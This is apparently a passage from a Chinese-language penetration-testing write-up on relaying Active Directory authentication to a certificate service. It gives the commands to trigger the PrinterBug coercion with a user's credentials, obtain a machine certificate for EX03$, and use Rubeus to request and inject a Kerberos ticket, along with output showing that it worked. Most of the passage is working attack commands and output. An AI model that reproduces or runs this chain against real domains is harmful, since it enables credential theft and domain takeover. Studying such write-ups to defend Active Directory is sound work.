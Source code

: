 [![](https://p1.ssl.qhimg.com/t01e4e887d3f5bcc536.jpg)](https://p1.ssl.qhimg.com/t01e4e887d3f5bcc536.jpg)

打印机协议触发回连`Bypass监控规则`

```
python printerbug.py corp/lower_user:yourpass@192.168.44.163 192.168.44.131
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0126f5e002236e4a80.jpg)

中继获取证书

[![](https://p4.ssl.qhimg.com/t01594c0353041865c4.jpg)](https://p4.ssl.qhimg.com/t01594c0353041865c4.jpg)

```
[*] Base64 certificate of user EX03$:
LONGLONGLONGSTR**********==
```

Rubeus一键梭哈

```
Rubeus.exe asktgt /user:EX03$ /certificate:LONGLONGLONGSTR**********== /ptt
```

Rubeus生成票据并注入

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01bafa2197010fe8bf.jpg)

```
C:\adcs&gt;Rubeu_S.exe asktgt /user:EX03$ /certificate:bas64_cert_str /ptt
//返回
  v1.6.4

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ex03.BSEC.corp
[*] Building AS-REQ (w/ PKINIT preauth) for: 'BSEC.corp\EX03$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF**LongLongStrOfBase64Ticket.Kirbi***==

[+] Ticket successfully imported!

  ServiceName           :  krbtgt/BSEC.corp
  ServiceRealm          :  BSEC.CORP
  UserName              :  EX03$
  UserRealm             :  BSEC.CORP
  StartTime             :  2021/7/6 13:52:35
  EndTime               :  2021/7/6 23:52:35
  RenewTill             :  2021/7/13 13:52:35
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  XpO52RXSeAo6OdEfC+7kQQ==
```
